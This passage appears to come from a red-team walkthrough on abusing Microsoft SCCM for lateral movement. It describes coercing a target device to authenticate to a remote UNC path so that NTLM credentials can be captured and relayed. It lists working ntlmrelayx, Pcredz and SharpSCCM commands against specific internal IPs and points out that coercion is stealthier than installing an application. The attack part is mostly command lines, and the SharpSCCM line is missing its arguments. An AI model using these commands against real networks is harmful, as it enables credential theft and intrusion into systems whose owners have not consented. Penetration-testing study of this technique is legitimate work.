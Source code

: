 **Step 3**: Deploy Application to target device

In this final step you can choose to either create an actual application to deploy to the target machine or just trigger an install from a remote UNC path in order to capture and relay an incoming NTLM authentication. Note the following:

* Coercing an authentication might be stealthier (and requires less cleanup) than installing an application
* To capture and relay NTLM credentials, the target device must support NTLM (very likely).
* The neat part: The Authentication can be coerced using the primary user account of the device OR the device computer account (you can choose)

```bash
# Prep capturing server
## ntlmrelayx targeting 10.250.2.179
ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179

# Also keep Pcredz running, just in case
Pcredz -i enp0s8 -t
```
```powershell
# Run the attack
SharpSCCM.exe exec -rid  -r 
```

Note that the incoming authentication requsts might take a while (couple minutes) to roll in...

![](<./assets/SCCM_Lateral_Movement_Execution_Step3_Trigger_Deployment.png>)

![](./assets/SCCM_Lateral_Movement_Execution_Step3_Capture_Authentication.png)
